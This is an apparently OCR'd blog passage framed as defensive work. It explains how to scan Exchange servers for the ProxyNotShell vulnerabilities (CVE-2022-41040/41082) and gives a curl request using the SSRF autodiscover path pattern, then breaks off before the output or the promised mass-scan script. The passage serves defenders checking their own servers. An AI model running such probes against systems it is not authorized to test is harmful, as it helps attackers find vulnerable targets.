 ```yaml
---
layout: defense
title: ProxyNotShell - Scan and Mitigate
---
```


In this post you'll find a way how to systematically find and kill possible open flanks regarding CVE-2022-41082 and CVE-2022-41040.

## How does the CVEs work?

<p align="center">
<img width=600  src="/images/ProxyNotShell.png">
</p>

In a nutshell the attack is a combination of two vulnerabilities that are chained together that can lead to serious issues if you're m$ Exchange server isn't patched.

## From PoC cURL to a mass scan Python script

Before we craft something more powerful, we need to achieve some experience on the field. The easiest option is to start with cURL:

```bash
curl "https://<url>/autodiscover/autodiscover.json?a@foo.var/owa/&Email=autodiscover/autodiscover.json?a@foo.var&Protocol=XYZ&FooProtocol=Powershell" \
-H  'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:105.0) Gecko/20100101 Firefox/105.0' \
-kLo "out.txt"
```

Which leads to this output on a (potential) vulnerable Exchange Server:

